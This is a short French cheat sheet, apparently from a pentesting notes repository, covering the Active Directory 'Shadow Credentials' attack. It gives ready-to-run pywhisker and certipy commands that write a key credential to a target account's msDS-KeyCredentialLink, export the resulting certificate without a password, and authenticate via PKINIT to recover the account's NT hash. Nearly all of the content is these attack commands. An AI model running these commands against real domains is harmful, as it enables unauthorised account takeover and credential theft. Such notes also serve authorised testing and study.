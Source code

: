 
> [!TIP]
> La possibilité d'écrire dans la propriété « msds-KeyCredentialLink » d'un utilisateur ou d'un ordinateur. Cette écriture permet à un attaquant de créer des « Shadow Credentials » sur l'objet et de s'authentifier en tant que principal via Kerberos PKINIT.


1. Création du shadow credential

```sh
pywhisker.py -d "domain.local" --dc-ip "10.10.11.72" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```

2. Exporter le certificat pour l'utiliser sans mot de passe

```sh
certipy-ad cert -export -pfx 046POkXc.pfx -password "ehYBwigAlvOPo9pJtEH5" -out "unprotected.pfx"
```


3. Pass the certificate + UnPAC the hash

```bash
certipy-ad auth -pfx unprotected.pfx -username "ZPH-SVRMGMT1$" -domain zsm.local -dc-ip 192.168.210.10
```

